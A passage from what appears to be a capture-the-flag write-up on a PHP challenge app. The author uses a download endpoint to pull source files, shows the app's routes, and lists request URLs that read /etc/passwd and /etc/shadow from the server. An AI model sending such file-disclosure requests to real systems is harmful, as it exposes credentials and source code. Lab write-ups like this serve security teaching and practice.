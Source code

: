 ```bash
http://68.183.31.62:94/download?file=index.php&hash=828e0013b8f3bc1bb22b4f57172b019d 
```
And the result is: 

```php
ini\_set('display\_errors',1); ini\_set('display\_startup\_erros',1); error\_reporting(E\_ALL); require\_once('Routes.php'); function _\_autoload($class\_name){ if(file\_exists('./classes/'.$class\_name.'.php')){ require\_once './classes/'.$class\_name.'.php'; }else if(file\_exists('./Controllers/'.$class\_name.'.php')){ require\_once './Controllers/'.$class\_name.'.php'; } } 
``` 

In the above code we notice two things, the location in the server were the application “lives" and also the existence of the **Routes.php** file, we proceed to download the file.

```bash
http://68.183.31.62:94/download?file=/app/Routes.php&hash=b1146e09263e0aae856ff66a57968211 
```

The 

**Routes.php** file is huge but there are two route functions that seems interesting

```php
 Route::set('custom',function(){
  $handler = fopen('php://input','r');
  $data = stream_get_contents($handler);
  if(strlen($data) > 1){
    Custom::Test($data);
  } else {
    Custom::createView('Custom');
  } 
});
Route::set('admin',function(){ 
  if(!isset($\_REQUEST['rss']) && !isset($_REQUES['order'])) {
    Admin::createView('Admin');
  } else {
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1') {
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    } else {
      echo ";(";
    } 
  }
}); 
``` 

The **custom route** receives some request body and if the length is greater that 1 calls the **Test** function from the **Custom** class.

The **admin route** can receive two parameters, **rss** and **order**, if both exists then a validation happens, the validation checks if the request comes directly from **127.0.0.1** which is **localhost**, if this is true then the **sort** function from the **Admin** class is called.

Here are some other Interesting files I downloaded based on what we learned from the **index.php** file.

```bash
 http://68.183.31.62:94/download?file=/app/Controllers/Custom.php&hash=55fdef99c788af643d2676ac21ada5f4
 http://68.183.31.62:94/download?file=/app/Controllers/Admin.php&hash=42c58ba0a247b5c76bce27387e90b99f
 http://68.183.31.62:94/download?file=/etc/passwd&hash=c5068b7c2b1707f8939b283a2758a691
 http://68.183.31.62:94/download?file=/etc/shadow&hash=2fe8599cb25a0c790213d39b3be97c27
 http://68.183.31.62:94/download?file=/app/Routes.php&hash=b1146e09263e0aae856ff66a57968211 
``` 


 [1]: https://ctf.fireshellsecurity.team/
 [2]: https://twitter.com/yovasx2
 [3]: https://www.imperva.com/Resources/Glossary/source-code-disclosure
 [4]: http://php.net/manual/es/function.create-function.php
 [5]: http://php.net/manual/en/function.eval.php
 [6]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
 [7]: https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
 [8]: https://www.alevsk.com/
 [9]: http://68.183.31.62:94/admin